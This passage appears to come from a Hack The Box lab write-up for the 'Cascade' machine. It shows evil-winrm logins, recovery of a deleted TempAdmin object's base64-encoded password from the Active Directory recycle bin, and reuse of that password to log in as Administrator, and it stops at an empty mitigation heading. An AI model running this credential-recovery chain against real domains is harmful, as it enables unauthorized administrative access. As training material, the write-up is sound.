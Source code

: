 The password for the user ArkSvc is decrypted and we receive w3lc0meFr31nd. Let's attempt remote login with `evil-winrm`.

```bash
$ evil-winrm -i 10.10.10.182 -u ArkSvc -p w3lc0meFr31nd
```

Success. With our new foothold, we can try to escalate our privilege.

Earlier, we discovered that the box is using Active Directory recycle bin, and we can recall the logs indicate that the user ArkSvc can perform these recycling functions.

Additonally, we learned that TempAdmin was "recycled" and had the same password as the Administrator. [Poweradmin](https://www.poweradmin.com/blog/restoring-deleted-objects-from-active-directory-using-ad-recycle-bin/) has a great article on how to restore or view objects that had been deleted using the AD recycle bin.

In our `WinRM` shell, let's run the following command, which should display the objects that have been deleted.


```powershell
> Get-ADObject -filter 'isdeleted -eq $true -and name -ne "Deleted Objects"' -includeDeletedObjects -property *
[...]
CanonicalName                   : cascade.local/Deleted Objects/TempAdmin
                                  DEL:f0cc344d-31e0-4866-bceb-a842791ca059
cascadeLegacyPwd                : YmFDVDNyMWFOMDBkbGVz
CN                              : TempAdmin
[...]
```

A little ways down, we can see the object TempAdmin and a field cascadeLegacyPwd. We know from earlier that the password is base64 encoded, let's grab it and decode it.

```bash
$ echo YmFDVDNyMWFOMDBkbGVz | base64 -d
baCT3r1aN00dles
```

Now let's see if the Administrator password hasn't been changed. We'll attempt connection with our newly acquired password.

```bash
$ evil-winrm -i 10.10.10.182 -u Administrator -p baCT3r1aN00dles
```

Success! Let's grab the root flag off the Administrator desktop.

![](/assets/img/posts/htb/07-2020-4/root-flag.png)

***

## Mitigation
